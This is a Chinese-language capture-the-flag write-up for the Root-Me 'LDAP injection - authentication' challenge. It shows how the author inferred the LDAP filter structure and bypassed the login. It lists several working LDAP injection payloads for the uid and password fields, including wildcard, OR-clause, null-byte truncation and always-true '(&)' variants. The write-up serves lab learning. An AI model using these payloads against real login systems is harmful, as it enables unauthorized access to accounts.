 Root-Me [LDAP injection - authentication](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-authentication?lang=en)
===

簡單的登入頁面。

## 解題關鍵
1. LDAP

## 提示訊息
```
Bypass authentication mecanism.
```

## 解題方法
首先 LDAP 是 Lightweight Directory Access Protocol 的縮寫，中文意思是輕型目錄存取協定，閱讀有關 LDAP 的文件後，嘗試丟個注入的語法 `admin)(&)` 隨後出現下方的訊息。  

![](img/01.png)  

顯然是有奏效的，只是執行上發生錯誤，所以開始理解該用什麼方法注入才能奏效，透過錯誤訊息的透漏，已經可以知道語法大致上長成 `(&(uid={})(userPassword={}))` 並且是 `uid = {} and userPassword = {}` 的意思。  

換成 OR 其實也是一樣的意思，可以嘗試跳脫第一個 `uid` 條件，並且奏合 `userPassword`。

```
uid: admin)(| (uid=admin
password: 123456)
(&(uid=admin)(| (uid=admin)(userPassword=123456)))
```

但回應變成了 `unknown identifiers`，應該是 `uid` 猜錯，是了老半天 `admin`、`administrator` 都沒辦法成功，最後是使用 `*`，在 LDAP 中 `*` 會被轉譯成類似 `LIKE "*"` 的語法。  

```
uid: *)(|(uid=*
password: 123456)

(&(uid=*)(| (uid=*)(userPassword=123456)))
```

登入後發現，原來帳號是 `ch25`，也就是題號，查看原始碼，檢視密碼欄位，解決該題。

![](img/02.png)  


## Other Write-up
隨後參考別人的 Wirte-up，發現還有更簡單的方式。

### %00
透過 `%00` 來截斷 `uid` 與 `password` 的 `&`。  
```
uid: *))
password: 123456

(&(uid=*))%00(userPassword=123456))
```

### *)(&
這個方法更巧妙了，直接透過 `*` 的方法，並且使用 `(&)` 永真的選項解題。  
```
uid: *)(&
password: *)(&

(&(uid=*)(&)(userPassword=*)(&))
```

## Reference
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Blackhat%20Europe%202008%20%20-%20LDAP%20Injection%20&%20Blind%20LDAP%20Injection.pdf  

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)